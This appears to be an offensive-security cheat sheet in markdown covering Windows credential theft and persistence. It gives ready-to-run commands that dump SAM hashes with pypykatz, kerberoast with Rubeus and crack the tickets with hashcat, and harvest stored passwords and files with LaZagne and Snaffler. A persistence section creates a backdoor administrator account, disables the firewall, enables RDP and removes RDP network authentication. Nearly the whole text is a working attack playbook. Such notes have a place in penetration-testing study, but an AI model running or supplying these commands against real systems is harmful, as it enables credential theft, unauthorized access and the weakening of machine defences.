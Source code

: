 

## Pypykatz
```
# Crack sam files
pypykatz registry --sam sam.txt --security security.txt system.txt
```


## Rubeus
```
Rubeus.exe kerberoast /nowrap
```
Now crack on your machine
```
hashcat -m 13100 hash rockyou.txt
hashcat -m 13100 crackme_pls.txt /usr/share/wordlists/rockyou.txt
```

## LaZagne
```
LaZagne.exe all
```

## Snaffler
```
snaffler.exe -s -o snaffler.log
```

# Persistence
## Enable RDP access for user
Run all the commands in sequence below - if there is already RDP enabled on the target machine:
```
# Create a user on the compromised host from admin account
net user hacker password123 /add

# Add yourself to admin group
net localgroup "Administrators" hacker /add

# This will put you in the RDP group
net localgroup "Remote Desktop Users" hacker /add

# Disable firewall
netsh firewall set opmode disable

# This activates RDP on the box
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# OPTIONAL - This will add another key which will allow unauthenticated access via rdp to a machine
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f

```
If remote desktop users not enabled yet, run this command - enables remote desktop users group to get through firewall:
```
netsh advfirewall firewall set rule group="remote desktop" new enable="Yes"

# Run netstat to check if rdp port 3389 is open
netstat -ano
```
